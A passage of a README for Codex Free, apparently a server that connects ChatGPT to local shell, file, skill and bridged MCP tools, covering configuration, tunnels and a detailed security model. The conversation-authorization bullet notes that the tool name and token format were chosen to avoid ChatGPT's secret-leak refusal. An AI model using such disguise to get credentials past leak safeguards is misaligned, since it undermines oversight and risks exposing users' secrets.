The default comes from `$SHELL` on every platform, so starting the server from Git Bash on Windows gets bash — with real `ls -la`, pipes and `$VAR` — rather than PowerShell. Set `exec.defaultShell` to override, or pass `shell` on an individual `exec_command` call.

Two Windows-specific details are handled: `powershell -Command` collapses every non-zero child exit code to `1`, so commands are wrapped to re-raise `$LASTEXITCODE`; and `exec_command`'s description gains Codex's PowerShell rules (`-LiteralPath` over `-Path`, `-WindowStyle Hidden`) when the server runs there.

Because the resolved shell decides what a command should even look like, it is published three ways — a client only has to read one of them:

- **`instructions`** in the `initialize` response, as the Environment section of the [agent brief](#acting-as-a-codex-agent).
- **`exec_command`'s description**, which names the actual shell binary and its syntax family.
- **`get_environment`**, for clients that read neither.

## AGENTS.md

A project's `AGENTS.md` is how it tells an agent its own conventions — which test command to run, which files not to touch, how commits should look. Codex reads it before the first turn; so does this bridge, using the same algorithm as `codex-rs/core/src/agents_md.rs`.

In single-project mode, discovery walks up from `--work-dir` to the nearest directory holding a **root marker** (`.git` by default), then collects **one doc per directory on the way back down**, so a monorepo's root conventions arrive before the ones belonging to the subdirectory you pointed the server at. In multi-project mode the selected directory is treated as the exact project root and discovery never reads an access-root parent, preventing instructions from one sibling project or the common parent from leaking into another session. In each directory considered, `AGENTS.override.md` wins over `AGENTS.md`, which wins over anything in `projectDoc.fallbackFilenames`. The files are concatenated outermost-first under a **shared 32 KiB budget**, counted in bytes rather than characters; a file that runs past what is left is cut there and reported as truncated, and whitespace-only files are skipped without spending any of it. If no marker is found anywhere above in single-project mode, only the work directory itself is checked.

Like the environment, the result is published more than one way:

- **`instructions`** carries the doc inline, behind Codex's own `--- project-doc ---` separator. Everything past that marker is the project speaking, and it outranks the [agent brief](#acting-as-a-codex-agent) above it.
- **`get_project_doc`** returns the identical text for clients that never read `instructions`, along with the absolute path of every file it came from and whether each was truncated.

Instructions are built per MCP session, so editing `AGENTS.md` takes effect on the next connection without restarting the server.

## Skills

`AGENTS.md` says what is true of the project always. A **skill** says how to do one recurring task well — cut a release, review a PR the way this team reviews PRs, debug the flaky suite — and is only read when that task comes up. Codex has had them since its extension crate landed; Codex Free ports the format and the discovery, from `codex-rs/ext/skills` and `codex-rs/skills`.

A skill is a directory holding a `SKILL.md` whose YAML frontmatter names it and says when it applies:

```
.agents/skills/
└── release/
    ├── SKILL.md
    ├── references/versioning.md
    └── scripts/tag.sh
```

```markdown
---
name: release
description: Cut and publish a release of this project
---

1. Check `cargo test` and `cargo clippy` are clean.
2. Bump the version in `Cargo.toml`.
3. Run `scripts/tag.sh`; see `references/versioning.md` for what the tag must look like.
```

`description` is required — it is the only thing the model sees before deciding whether the skill is worth reading. `name` defaults to the directory name. `metadata.short-description` is optional. A skill whose frontmatter cannot be used is reported by `skills_list` rather than silently dropped, because the author meant it to be there.

**Where they are found**, in precedence order:

| Scope | Directories |
|-------|-------------|
| `repo` | `.agents/skills`, `.codex/skills` and `.claude/skills`, in every directory from the project root down to the active work directory; in multi-project mode the selected directory is the exact project root |
| `user` | `~/.agents/skills`, `~/.codex/skills` and `~/.claude/skills`, or whatever `skills.dirs` names instead |
| `plugin` | Installed **Claude Code plugin** skills under `~/.claude/plugins/cache/<marketplace>/<plugin>/<version>/skills/*` |

Repo skills come first, so a project decides how a name behaves inside it; a personal skill of the same name is shadowed and `skills_list` says so rather than merging the two.

**Claude Code plugins.** Codex Free also discovers skills bundled with your installed Claude Code plugins, namespaced `<plugin>:<skill>` (e.g. `idasql:decompiler`) so they never collide with your own. The highest installed version of each plugin is used. Turn this off with `"skills": { "includePlugins": false }`. Setting `skills.dirs` overrides the standalone roots and, by default, disables plugin discovery too — set `includePlugins: true` alongside `dirs` to keep it.

**What the model sees.** The catalogue — a name and a description per skill — goes into the project-aware brief under a `## Skills` heading. In single-project mode that is available at initialization; in multi-project mode it arrives from `get_agent_brief` after selection. Bodies are not loaded: `skills_read` fetches one only once a skill has actually been chosen. That is the progressive disclosure that makes a large library affordable on a small context window. The section is omitted entirely when nothing is installed.

**Reaching the rest of a package.** Reference files, scripts and assets are read with `skills_read` and the skill's name, passing the file's path as `resource`. `read_file` will not do: it is confined to the active project root, and user- and plugin-scope skills live in your home directory. Paths inside a skill are relative to the skill's own directory, and a `resource` that tries to leave it is rejected — so the only thing this opens up is the inside of a skill you or the project deliberately installed. Reading a `SKILL.md` lists the package's other files, since the model cannot glob a directory it cannot see.

Discovery runs per MCP session, so adding a skill takes effect on the next connection without restarting the server. Set `skills.enabled` to `false` to turn the whole thing off.

## Bridging other MCP servers

Codex Free can also act as an **MCP aggregator**: it connects to local stdio or remote Streamable HTTP MCP servers as a client and materializes their complete paginated `tools/list` catalogues at startup. Catalogue ownership and model exposure are separate. A server can keep its transitive tools private behind a fixed progressive-disclosure surface, expose each tool directly, or use the older one-tool gateway.

### Exposure modes and defaults

| `mode` | Default provenance | Downstream exposure |
|--------|--------------------|---------------------|
| `"catalog"` | Servers automatically imported from Codex `config.toml` or the Codex CLI/plugin catalogue | The complete filtered catalogue stays private. All catalog-mode sources share four fixed tools: `mcp_list_sources`, `mcp_search_tools`, `mcp_get_tool`, and `mcp_call_tool` |
| `"direct"` | A standalone entry declared only in `codex.config.json.mcpServers` | Every selected upstream tool becomes `<server>__<tool>`, preserving the historical bridge behavior |
| `"gateway"` | Never implicit; explicit compatibility opt-in only | The server becomes one `{ function, arguments }` dispatcher plus a generated skill containing every function schema |

The default is based on **provenance**, not a brittle tool-count threshold. Automatically imported Codex/plugin servers use catalog mode even when they expose only a few tools. Standalone explicit entries remain direct by default for backward compatibility. An explicit entry that overlays an imported server inherits that imported provenance; set `mode` in the overlay to choose another exposure deliberately.

To restore the pre-catalog behavior for an imported server:

```json
{
  "mcpServers": {
    "idasql": { "mode": "direct" }
  }
}
```

To keep a standalone explicit server out of the connector capability catalogue:

```json
{
  "mcpServers": {
    "remote-docs": {
      "url": "https://mcp.example.com/mcp",
      "mode": "catalog"
    }
  }
}
```

`tools` and `disabledTools` are applied to raw upstream tool names before any mode is materialized. The fixed catalog tools and every direct/gateway proxy are project-independent: they remain callable before project selection in multi-project mode, subject to any configured conversation-authorization gate.

### Automatic discovery from Codex

Codex Free always has a standalone fallback: it reads `$CODEX_HOME/config.toml` when `CODEX_HOME` is set, otherwise `~/.codex/config.toml`. The file is read only; Codex Free never rewrites it. This direct parser imports user-configured MCP servers without requiring a `codex` executable. MCP-server import intentionally does not reproduce Codex's project-local configuration layers or use project trust decisions; [project catalogue discovery](#project-catalogue-semantics) is a separate consumer of the same user-level file.

For each `[mcp_servers.<name>]` entry, Codex Free imports the fields it can preserve:

- `command`, `args`, `env` and `cwd` for local stdio launch;
- local `env_vars`, resolved from Codex Free's process environment;
- `url` for Streamable HTTP;
- `bearer_token_env_var`, `http_headers`, and `env_http_headers` for HTTP authentication and request headers;
- `startup_timeout_sec` (or legacy `startup_timeout_ms`) and `tool_timeout_sec`;
- `enabled = false` as a disabled upstream;
- `enabled_tools` as an allow-list and `disabled_tools` as a deny-list applied afterwards.

By default, Codex Free also tries `codex mcp list --json`. Servers present in Codex's effective catalogue but absent from `config.toml` are fetched with `codex mcp get <name> --json` so plugin-provided enablement and tool allow/deny lists are preserved. The executable is selected from `codexMcp.cliPath`, then `CODEX_CLI_PATH`, then `codex` on `PATH`. Each invocation is bounded to 30 seconds and 4 MiB of stdout, and its JSON is parsed in memory without logging literal environment values. Both directly parsed and CLI/plugin imports carry imported provenance and therefore default to catalog exposure.

When the CLI is missing, fails, times out, or returns incompatible JSON, normal startup continues with the direct `config.toml` result and prints a warning that plugin-provided MCP servers may be missing. Pass `--codex-cli` to make successful CLI discovery mandatory instead; the same condition then becomes a startup error. Set `"codexMcp": { "useCli": false }` to suppress CLI invocation while retaining direct config parsing.

Non-local execution environments remain unsupported: Codex Free itself opens the HTTP connection and cannot delegate header resolution or stdio launch into a Codex executor. `http_headers_helper` is also unsupported. Other Codex-only fields are ignored explicitly: the startup report names those fields, but never prints header values, environment values, or bearer tokens. A missing or unreadable Codex config does not prevent CLI-discovered or explicitly declared `codex.config.json` servers from loading.

Disable discovery while retaining explicit upstreams with:

```json
{
  "codexMcp": { "enabled": false },
  "mcpServers": {}
}
```

To keep direct Codex config import but never start the Codex CLI:

```json
{
  "codexMcp": { "enabled": true, "useCli": false }
}
```

### Explicit servers and overrides

The `mcpServers` map in `codex.config.json` remains supported. A local entry is a stdio command that Codex Free launches and drives over stdin/stdout. Because this entry is standalone and has no `mode`, it uses direct exposure:

```json
{
  "mcpServers": {
    "idasql": {
      "command": "idasql-mcp",
      "args": ["--stdio"],
      "env": { "IDA_PATH": "C:/Program Files/IDA" }
    }
  }
}
```

A remote entry uses MCP Streamable HTTP. Secret values should come from environment variables rather than the JSON file:

```json
{
  "mcpServers": {
    "remote-docs": {
      "url": "https://mcp.example.com/mcp",
      "bearerTokenEnvVar": "REMOTE_MCP_TOKEN",
      "httpHeaders": {
        "X-Client": "codex-free"
      },
      "envHttpHeaders": {
        "X-Tenant": "REMOTE_MCP_TENANT"
      },
      "startupTimeoutSec": 20,
      "toolTimeoutSec": 60
    }
  }
}
```

`bearerTokenEnvVar` is required to exist and be non-empty when configured. Missing or empty values referenced by `envHttpHeaders` are omitted, matching Codex. Environment-backed headers override a same-named static header. Do not configure both `bearerTokenEnvVar` and an `Authorization` entry in `httpHeaders`/`envHttpHeaders`.

An explicit entry with the same name as an imported Codex server is a field-by-field overlay. That makes Codex-specific launch settings reusable while adding bridge-only settings without copying the command, arguments or environment:

```json
{
  "mcpServers": {
    "remote-exec": {
      "mode": "gateway",
      "tools": ["exec", "machine_list"]
    }
  }
}
```

Set an empty array or object to replace an imported collection with an empty one. Explicit `command` and `url` fields replace the imported transport rather than producing a mixed configuration.

At startup you'll see, e.g.:

```
Codex MCP config discovery: /home/user/.codex/config.toml
  idasql -> imported from Codex config
Codex CLI MCP discovery: codex
  idalib -> imported from Codex CLI (not present in config.toml)
Codex MCP overrides:
  remote-exec -> imported fields overlaid by codex.config.json
Tools loaded (32): 28 native + 4 upstream-facing MCP tools
Upstream MCP servers:
  idalib      -> catalog (66 private tool(s))
  idasql      -> catalog (12 private tool(s))
  remote-exec -> gateway (2 functions via `remote_exec`)
```

An upstream that fails to launch, connect, authenticate, or answer is skipped; it never blocks startup or the native tools. Every configured server is reported, so a bad path or failed handshake is not silent.

### Catalog mode (default for automatic imports)

Catalog mode is the closest architecture an MCP-only bridge can provide to Codex's deferred tool exposure. Codex Free still discovers and stores every filtered upstream definition internally, but downstream `tools/list` receives only a small fixed surface:

| Tool | Contract |
|------|----------|
| `mcp_list_sources` | List or filter catalog-mode systems. Results include a unique model-facing source ID, the raw configured server name, provenance, transport, tool count, upstream implementation metadata, and initialization instructions when supplied |
| `mcp_search_tools` | BM25-ranked full-text search over source/server metadata, model-facing and raw tool names, title, description, and recursively useful input/output-schema property names, descriptions, required names, and enum values. It can be restricted to one source ID |
| `mcp_get_tool` | Return one exact upstream tool definition, including its separate model-facing ID and raw name, title, description, input/output schemas, annotations, icons, and `_meta` |
| `mcp_call_tool` | Invoke the selected source/tool ID with an `arguments` object. Dispatch resolves the original server and raw tool name exactly |

A typical agent flow is `mcp_list_sources` once when it needs to learn the available systems, `mcp_search_tools` with task-specific terminology, `mcp_get_tool` for the selected match when its exact schema or side-effect metadata matters, then `mcp_call_tool`. Search returns compact summaries rather than every schema, so a 66-tool IDA server still contributes only these four fixed connector capabilities.

Model-facing IDs are sanitized and collision-disambiguated independently from raw names. The raw server/tool strings are never reconstructed from those IDs; dispatch uses the stored originals. This matters for names such as `rename-function` and `rename_function`, which can normalize to the same identifier but remain distinct upstream calls.

Forwarded calls preserve upstream text blocks, images, structured content, the tool-error flag, and result `_meta`. Configured tool timeouts use RMCP cancellable requests, and cancellation of the downstream ChatGPT/MCP request is forwarded upstream. Unsupported content-block variants are retained through the existing JSON-text fallback rather than discarded.

The generic dispatcher cannot reproduce the selected upstream tool's host-level approval semantics in ChatGPT because its downstream annotations are fixed before `source` and `tool` are known. `mcp_call_tool` therefore advertises conservative potentially-destructive/open-world hints. The agent can inspect the selected tool's exact annotations through `mcp_get_tool`, but the connector host still approves the generic dispatcher as one capability. Use direct mode when per-tool connector annotations and approval boundaries are required.

The private catalogue is a startup snapshot. Dynamic upstream `tools/list_changed` notifications are not projected into the fixed surface; restart Codex Free to rematerialize a changed catalogue.

### Direct mode

With `"mode": "direct"`, each upstream tool becomes a `BridgedTool` named `<server>__<tool>` (sanitized to `[A-Za-z0-9_]`, so `remote-exec` becomes `remote_exec__exec`). Calls use the tool's stored **raw upstream name**, not the downstream identifier. Input/output schemas, title, annotations, icons, and `_meta` are preserved in downstream `tools/list`; text, images, structured content, error state, and result metadata pass through on calls. A downstream name colliding with a native or previously registered tool is skipped with a warning.

Direct mode is the strongest compatibility option, but it intentionally places every selected schema in the connector capability catalogue. Use `tools`/`disabledTools` to curate it when full exposure is unnecessary.

### Gateway mode

**`mode: "gateway"`** retains the earlier compact compatibility mechanism: a whole server becomes one dispatcher tool plus a generated skill.

```json
{
  "mcpServers": {
    "remote-exec": {
      "mode": "gateway"
    }
  }
}
```

When `remote-exec` was imported from Codex, that overlay is sufficient; include its launch fields when it exists only in `codex.config.json`. Gateway mode registers one sanitized tool named `remote_exec` taking `{ "function": "<name>", "arguments": { ... } }`, and generates a skill (`skills_read name="remote-exec"`) documenting every raw function and argument schema. An 84-tool server therefore shows up as one tool plus one skill. This mode does not provide ranked search, exact per-tool metadata retrieval, or per-tool connector approval semantics; catalog mode is the preferred compact architecture for new configurations.

### Common transport and filtering behavior

- `disabled: true` keeps an entry configured but skips it (reported as `-> disabled`).
- `tools: ["exec", "machine_list", ...]` is an allow-list over raw upstream names.
- `disabledTools: ["dangerous_write", ...]` removes tools after the allow-list.
- `cwd` selects a stdio child process's working directory.
- `startupTimeoutSec` bounds initialization plus complete paginated `tools/list`; the default is 20 seconds.
- `toolTimeoutSec` bounds each forwarded call and sends MCP cancellation when the limit expires.
- `type` is inferred: `command` means `"stdio"`, while `url` means Streamable HTTP. Explicit HTTP aliases `"http"`, `"streamable-http"`, and `"streamable_http"` are accepted.
- Legacy SSE and WebSocket transports are rejected explicitly because current Codex supports stdio and Streamable HTTP, not those legacy protocols.

OAuth authorization-code login and credential persistence are not implemented by this bridge. An OAuth-protected upstream must therefore be supplied a usable bearer token through `bearerTokenEnvVar` or an environment-backed `Authorization` header. Upstream MCP resources, resource templates, and prompts remain separate capability work: Codex Free's native exported-file resources are resolved locally, but resource links returned by a bridged server are not proxied through that server. Catalog mode reports upstream initialization instructions as source metadata, but does not inject them into Codex Free's own initialization instructions.

If your server doesn't show up, **check the banner first** — the most common cause is a wrong `command` path.

## Connecting to ChatGPT

### With the native OpenAI tunnel

1. In ChatGPT, enable **Developer mode**.
2. Configure `openaiTunnel`, export the referenced runtime key, and start Codex Free. Keep the process running for connector discovery and every tool call.
3. In ChatGPT's connector/plugin settings, create a developer-mode connector with **Connection type: Tunnel**.
4. Select the same tunnel ID that Codex Free reports as ready. Set **Authentication** to **None**.
5. Set the connector's permissions to **Allow all actions** if you do not want per-call confirmations.
6. Enable the connector in a new chat. Without conversation authorization, open with `Call get_agent_brief and follow it for the rest of this chat.` With `conversationAuthToken`, first supply the one-line `setup` instruction from [Optional per-conversation authorization](#optional-per-conversation-authorization); after authorization succeeds, follow its project-selection or `get_agent_brief` direction. In multi-project mode (`--multi-project`), call `set_project_root` first when an exact path or GitHub repository, branch, pull-request, or commit URL is known, or `list_projects` first when only the local project identity is known; later follow-ups in that same chat recover both authorization and the project binding from ChatGPT's conversation metadata.

There is no server URL to enter in this mode. OpenAI routes the selected tunnel to the supervised client, which supplies Codex Free's generated per-process bearer on the local hop. The startup banner prints the runtime-only `/readyz` and `/metrics` URLs. It does not advertise an admin UI because `tunnel-client-runtime` deliberately omits that full-client surface.

### With an externally managed tunnel

1. Start Codex Free without `openaiTunnel` (add `--work-dir /path/to/projects --multi-project` for one connector shared across projects).
2. Put an authenticated reverse proxy or tunnel in front of port `3000`.
3. Create a URL-based developer connector/plugin whose server URL is the resulting HTTPS URL with `/mcp` appended.
4. Configure the connector authentication supported by the client, and enforce access controls at the proxy/tunnel layer.

For example, `ngrok http 3000` is sufficient for a disposable connectivity test, but an unprotected public URL is not an appropriate long-lived deployment. Use provider access policies, source restrictions, mTLS, OAuth, or another control appropriate to the deployment. The `--api-key` option is useful for MCP clients that can send a static bearer token; ChatGPT's connector authentication choices may not support that form directly.

## Host allowlist

Without `openaiTunnel`, `allowedHosts` is empty by default, which accepts any `Host` header so an externally managed proxy can present an arbitrary hostname. Set it to a list of hostnames to enable **DNS-rebinding protection**: only requests whose `Host` header matches are served.

Native tunnel mode ignores `allowedHosts` and forces the accepted authorities to `127.0.0.1`, `localhost`, and `::1`. It also binds only `127.0.0.1` and removes the permissive CORS layer. These restrictions are part of the mode rather than optional hardening.

## Security

- **Path traversal prevention**: every filesystem tool — including `apply_patch` and `view_image` — resolves paths through a guard that rejects anything outside the active project root. In multi-project mode, both catalogue discovery and `set_project_root` canonicalize the configured access root and candidate directory, so `..` and symlinks cannot expose or bind a project outside the access root.
- **Stable server-config authority**: the implicit config is user-scoped at `~/.codex-free/codex.config.json`, so changing the launch directory does not normally change command, MCP-server, network, tunnel, or worktree policy. `--config` and `CODEX_FREE_CONFIG` remain explicit overrides. The old `./codex.config.json` behavior is retained only as a warned compatibility fallback when no user config exists.
- **Bounded GitHub cloning and target fetching**: URL-based project selection accepts only normalized HTTPS/SSH repository roots plus HTTPS branch, PR, and full commit URLs on `github.com`. It separates owner/repository identity from the exact checkout target, rejects embedded credentials, unsupported subpages, and non-GitHub/insecure transports, and disables interactive Git credential prompts. The configured clone directory is canonicalized inside the access root at startup and revalidated at use time. Resolution uses per-repository cross-process locks, bounded subprocess timeouts, private temporary clone destinations, remote verification, exact branch/PR refspecs or full commit object IDs, and collision refusal. Existing source checkouts are fetched without moving `HEAD`; a conversation already bound to another selection is rejected before the network/disk side effect.
- **Host-authorized native-file ingress**: `import_host_file` accepts only ChatGPT's declared native-file object, rejects local source paths, constrains the download URL and every redirect hop to the configurable `artifactIngress.allowedHosts` allowlist (default `"*"`, which admits any public HTTPS host but never a loopback, private, link-local, unique-local, CGNAT, `localhost`, or metadata address), ignores ambient proxy credentials, and enforces whole-request, idle, size and concurrency limits. Its signed URL and file ID are never logged or returned: RMCP debug/trace payload logging is unconditionally suppressed even when `RUST_LOG` requests it. Destination publication uses a capability-confined directory handle, canonical-path and file-identity revalidation, a private partial file, SHA-256, and atomic no-overwrite linking so traversal, moved roots, symlink escapes, partial visibility and replacement races fail closed.
- **Bounded native-file egress**: `export_host_file` accepts only a relative regular-file path inside the active project, opens it through a capability-confined directory handle, rejects traversal and symlink escapes, enforces `artifactEgress.maxFileBytes` before and during the read, and returns a SHA-256 receipt plus a standard MCP resource link. The link carries a random 256-bit opaque capability rather than a local path. Its immutable bytes live only in a process-wide memory cache bounded by `maxCachedBytes`, `maxReferences` and `referenceTtlMs`; expired and evicted references fail closed, and audit output records only the number of resource links, never their URIs or filenames.
- **One bounded exception in single-project mode**: [AGENTS.md](#agentsmd) discovery may read above `--work-dir`, up to the nearest `.git`. It is read-only, opens only `AGENTS.override.md`, `AGENTS.md` and any `projectDoc.fallbackFilenames`, and `get_project_doc` reports the absolute path of every file it used. Set `projectDoc.maxBytes` to `0` to switch it off, or `projectDoc.rootMarkers` to `[]` to keep the search inside the work directory. Multi-project mode does not perform this upward walk; its selected directory is the exact project root.
- **Namespaced review state inside Git**: ChatGPT review checkpoints are exactly two refs per conversation/project pair under `refs/codex-free/review/`. Synthetic snapshots contain only the selected project path, are built through a temporary index, and never modify the real index or working tree. Generic MCP-client checkpoints are in memory only. The namespace grows with the number of distinct persistent conversation/project pairs; the review section documents inspection and manual removal.
- **Bounded state writes outside the work directory**: `remember` and `update_plan` write `memory.json` under `~/.codex-free/projects/`. Multi-project mode also writes one small project-binding record under `~/.codex-free/conversation-projects/` for each ChatGPT conversation and access root. Per-conversation authorization writes a small marker under `~/.codex-free/conversation-authorizations/`. Binding and authorization filenames are derived from a hash of `openai/session`; the raw identifier is not stored. Authorization namespaces include a one-way digest of the canonical work directory and configured token, while marker contents store only the grant. Set `memory.enabled` to `false` to disable plans and notes; delete the corresponding state directory to forget bindings or authorizations. See [Context and memory](#context-and-memory).
- **Bounded reads outside the work directory**: [skills](#skills) may live in `~/.agents/skills`, `~/.codex/skills`, `~/.claude/skills` or an installed Claude Code plugin. `skills_read` opens files there, but only inside a skill package that already exists — the `resource` path is checked against the skill's own directory, so it cannot walk out into the rest of your home directory. `skills_list` reports the absolute path of every skill it found. Set `skills.enabled` to `false` to switch it off, or `skills.dirs` to point the user scope somewhere you choose.
- **Read-only Codex configuration discovery**: MCP import and the project catalogue read the user-level Codex `config.toml` without rewriting it. Project discovery inspects only the top-level `projects` table, does not read candidate project contents, and suppresses rejected absolute paths from MCP output. Set `projectCatalog.codexConfig.enabled` to `false` to disable that provider. Native Codex trust does not override the Codex Free access-root boundary.
- **Command allowlist**: `run_command` only runs binaries listed in `allowedCommands`; everything else is rejected. `exec_command` checks the same list plus `exec.extraAllowedCommands`, at every command position in the string.
- **Bridged servers carry delegated authority**: an explicit `mcpServers` entry or an automatically imported Codex MCP—including one contributed by a Codex plugin—can receive model-directed calls. A stdio upstream launches a real process that runs as your OS user; a Streamable HTTP upstream receives calls plus its configured bearer token and HTTP headers. Catalog mode reduces connector-schema exposure, not runtime authority: `mcp_call_tool` can still dispatch any filtered catalogue entry. Only bridge servers you trust, use `tools`/`disabledTools` to narrow callable operations, prefer catalog mode to keep transitive schemas private, keep secrets in `bearerTokenEnvVar`/`envHttpHeaders` rather than static JSON, set `codexMcp.useCli` to `false` to exclude plugin-only discovery, or set `codexMcp.enabled` to `false` to disable all automatic Codex import. Launch, connection, authentication, and handshake failures are reported rather than silently ignored.
- **Native OpenAI tunnel is outbound-only**: Codex Free binds its MCP listener to loopback and supervises OpenAI's official runtime-only tunnel client. Startup fails unless the runtime reports `/readyz` and completes a control-plane poll. Failure of either process stops the other, and HTTP shutdown has a bounded grace period before remaining connections are aborted.
- **The loopback MCP hop is authenticated**: native mode generates a random per-process bearer token and configures the tunnel runtime to send it on MCP requests and discovery probes. The token is never printed, written to the config file, or inherited by model-launched commands and bridged MCP children.
- **Optional conversation-level authorization**: `conversationAuthToken` blocks all tools except the deliberately innocuous `setup` wire tool until the stable ChatGPT conversation presents the configured authentication token as `ref`. Successful grants persist by hashed conversation identity and are invalidated by token rotation; clients without `openai/session` get transport-only grants. Initialization withholds the project-aware brief until authorization succeeds. The `setup(ref)` naming and SHA-256-shaped token avoid ChatGPT's false-positive connector secret-leak refusal; they do not make the token public or replace real authentication. This gate controls model conversations, not network callers: keep the native tunnel, reverse proxy, ChatGPT workspace, and local account secured independently. The token remains plaintext in `codex.config.json` because the server must compare chat-supplied values, so keep that file private and out of version control.
- **Verified tunnel-client installation**: the managed client is pinned to a specific official release and per-platform archive SHA-256 embedded in Codex Free, extracted by exact filename under size limits, installed atomically with private permissions, and hash-checked against its installation manifest on subsequent starts. Set `clientPath` to opt out of managed installation while retaining compatibility checks.
- **Tunnel secrets are references, not config values**: `openaiTunnel.apiKeyRef` accepts only `env:NAME` or `file:/path`; literal API keys are rejected. Codex Free resolves the value and exposes it only to the tunnel child under a synthetic environment name, while the child receives a clean, allowlisted environment. Use a restricted runtime key with Tunnels **Read** + **Use**, not an admin key. Private key-file permissions are enforced on Unix. Same-user process inspection and same-user file access remain outside this boundary.
- **Optional bearer token auth in non-native mode**: set `--api-key` to require an `Authorization: Bearer <key>` header on all requests except `/health`. Native mode instead owns its private per-process bearer token. ChatGPT Plugins do not support simple bearer token auth for URL-based connectors.
- **Host allowlist**: set `allowedHosts` to pin the accepted `Host` header for DNS-rebinding protection. See [Host allowlist](#host-allowlist).
- **Tool payload logging is explicitly sensitive**: `toolLogging` / `--log-tool-payloads` can retain source code, paths, commands, model output, and data returned by delegated MCP servers. Redaction removes configured and heuristically recognized credentials before byte-bounded truncation; MCP image content-block base64 and resource-link capability URIs are always omitted. Arbitrary sensitive literals still cannot be identified perfectly. Leave the mode `off` unless the operational visibility is worth that exposure, and protect the process logs accordingly.
- **Audit records exclude payloads by default**: `--audit` writes hashes, timings, result sizes, and redacted argument shape rather than source, file paths, credentials, or returned output. Command previews require a separate opt-in and remain potentially sensitive even after configured and heuristic redaction, so protect the audit file as operational data.

The allowlist is a **guardrail against accidents, not a sandbox**. It catches a model reaching for `curl` or `rm -rf`; it does not contain a determined one. The defaults already include `node`, `python` and `cargo`, each of which runs arbitrary code — `node -e "..."` can do anything the server process can. Shell redirection and explicit absolute or parent paths can also reach outside the active project root even though each command starts with that root as its cwd. Multi-project selection isolates Codex Free's structured tools and logical per-conversation project state; it is not an operating-system sandbox. Treat everything below as reachable by whoever is authorized to use the configured connector or external endpoint:

- everything in the active project root, read and write
- in multi-project mode, any project beneath the configured access root can be selected by a new conversation or unbound transport session, and an exact GitHub repository, branch, or PR URL can add or target a checkout beneath `projectCloneDir`
- anything else the user account running the server can touch, via an allowlisted interpreter
- the network, from your machine
- anything a bridged MCP server can do

For clients without stable ChatGPT conversation metadata, `exec_command`
sessions are killed when the MCP transport closes. ChatGPT conversation-owned
sessions instead survive connector transport replacement and are killed by
`exec.idleTimeoutMs` or server shutdown. In either case the kill includes child
processes: `taskkill /T /F` walks the process tree on Windows, and on POSIX each
session gets its own process group that is signalled as a whole. A process that
deliberately re-parents or daemonises itself still escapes, so check for strays
if a run leaves something listening.

The native OpenAI tunnel removes the general public-URL exposure, but it does not reduce the authority of a successful tool call. Keep tunnel and connector permissions narrow, do not point Codex Free at directories you do not trust the model with, and set `exec.mode` and the command allowlists tighter than the defaults when the work directory is sensitive. In multi-project mode, the entire access-root subtree is intentionally selectable, so treat the whole subtree as sensitive. For an external tunnel, require tunnel-level access control rather than relying on URL secrecy.

## Dev commands

```bash
cargo run -- --work-dir /path/to/project   # run against a project
cargo build --release                       # optimized binary at target/release/codex-free
cargo test                                  # run the test suite
cargo clippy --all-targets                  # lints
cargo fmt                                    # format
```

The design and module layout are documented in [docs/ARCHITECTURE.md](docs/ARCHITECTURE.md).

## Documentation

- **[Wiki](https://github.com/hypnguyen1209/codex-free/wiki)** — the end-user guide, from arguments to operational flow. Good starting points:
  - [Quick Start](https://github.com/hypnguyen1209/codex-free/wiki/Quick-Start) · [Installation](https://github.com/hypnguyen1209/codex-free/wiki/Installation) · [Connecting to ChatGPT](https://github.com/hypnguyen1209/codex-free/wiki/Connecting-to-ChatGPT)
  - [CLI Reference](https://github.com/hypnguyen1209/codex-free/wiki/CLI-Reference) · [Configuration](https://github.com/hypnguyen1209/codex-free/wiki/Configuration) · [Tools Reference](https://github.com/hypnguyen1209/codex-free/wiki/Tools-Reference)
  - [How It Works](https://github.com/hypnguyen1209/codex-free/wiki/How-It-Works) · [Security Model](https://github.com/hypnguyen1209/codex-free/wiki/Security-Model) · [Multi-Project Mode](https://github.com/hypnguyen1209/codex-free/wiki/Multi-Project-Mode) · [Bridging MCP Servers](https://github.com/hypnguyen1209/codex-free/wiki/Bridging-MCP-Servers)
  - [Troubleshooting](https://github.com/hypnguyen1209/codex-free/wiki/Troubleshooting) · [FAQ](https://github.com/hypnguyen1209/codex-free/wiki/FAQ)
- **[docs/ARCHITECTURE.md](docs/ARCHITECTURE.md)** — internal design and module layout, for contributors.
- **[CHANGELOG.md](CHANGELOG.md)** — release history.

## License

MIT - see [LICENSE](LICENSE).
